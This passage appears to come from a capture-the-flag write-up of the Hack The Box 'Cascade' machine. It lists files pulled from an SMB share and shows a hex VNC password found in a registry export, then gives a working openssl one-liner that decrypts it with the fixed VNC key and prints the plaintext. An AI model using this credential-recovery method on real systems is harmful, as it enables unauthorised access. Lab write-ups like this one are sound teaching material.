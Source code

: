 Only have access to the `IT` share and extracted multiple files:

```bash
-rw-r--r-- 1 kali kali 1303 Jun 15 14:33  ArkAdRecycleBin.log
-rw-r--r-- 1 kali kali 2522 Jun 15 14:32  Meeting_Notes_June_2018.html
-rw-r--r-- 1 kali kali 2680 Jun 15 14:35 'VNC Install.reg'
-rw-r--r-- 1 kali kali 5967 Jun 15 14:34  dcdiag.log
```

The Email Message in `Meeting_Notes_June_2018.html`:

![Email Message](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Windows%20Machines/Cascade/Images/Email%20Message.png)

The file `'VNC Install.reg'` found under a folder titled `s.smith` contains a password:

```bash
cat 'VNC Install.reg'

"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

The file `ArkAdRecycleBin.log` contains keyword `TempAdmin`:

```bash
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
```


## VNC Password Decrypt 

Searching online provides a [method](https://github.com/frizb/PasswordDecrypts) to decrypt the VNC password:

```bash
echo -n "6bcf2a4b6e5aca0f"| xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```
